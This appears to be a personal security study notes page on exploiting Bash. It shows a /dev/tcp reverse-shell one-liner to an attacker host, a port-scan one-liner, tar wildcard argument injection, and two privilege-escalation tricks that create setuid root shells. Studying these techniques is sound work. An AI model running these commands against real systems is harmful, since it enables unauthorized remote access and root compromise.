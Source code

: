 # Exploiting Bash

author:: Nathan Acks  
date:: 2022-07-11

# A Simple Reverse Shell

```bash
bash -li &> /dev/tcp/$ATTACKER_IP/$LISTENER_PORT 0>&1
```

Catch it with netcat or socat.

(That said, the fact that all of my file descriptors wind up pointing at /dev/tcp is a little mysterious to me. I *think* what's happening here is that /dev/tcp is bidirectional "out of the box" - incoming data comes out, just as outgoing data goes in - so binding all three "core" file descriptors to it does the right thing. That, and realize that the `X>&Y` construct means "bind file descriptor X to file descriptor Y", and `&>` is just short for `2>&1 >`, and `>` is just short for `1 >`. So really what's happening here is that we bind STDERR to STDOUT with and implicit `2>&1`, then bind STDOUT to /dev/tcp with an implicit `1 >`, then bind STDIN to /dev/tcp as well with `0>&1`.)

* [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

# Port Scanning

```bash
(: </dev/tcp/$IP_ADDRESS/$PORT) &>/dev/null && echo "OPEN" || echo "CLOSED"
```

# Using Wildcard Expansion to Pass Command Line Options

The wildcard expansion (`*`) in Bash scripts doesn't get pushed to the command, but is instead expanded in place. This means that files named like command-line switches *will be interpreted as command line switches*. This can be used, for example, to exploit sloppy tar-based backup scripts.

# Exploiting Functions in Bash < 4.2-048

In versions of Bash < 4.2-048, it's possible to export functions with the same form as absolute paths to files. These functions will then be executed instead of the fully-specified path *if* the calling application is relying on the current shell for helper execution.

For example:

```bash
function /path/to/executable { /bin/bash -p; }
export -f /path/to/executable
```

# Exploiting $PS4 in Bash < 4.4

When bash is in debugging mode (SHELLOPTS=xtrace), the $PS4 prompt is used to display debugging information.

*It would appear that this prompt somehow inherits the permissions of the executable being run.* This includes SUID/SGID permissions (at least for Bash < 4.4)!

If you have access to a SUID/SGID executable, this can be abused to create root shells:

```bash
env -i \
SHELLOPTS=xtrace \
PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' \
/path/to/suid/executable
```

Again, this only works *if* the calling application is relying on the current shell for helper execution.

# Avoid Dropping Privileges with SUID Bash

Bash will drop privileges by default if SUID. To avoid this, simply supply the `-p` flag. (Not sure how useful this is beyond CTFs...)

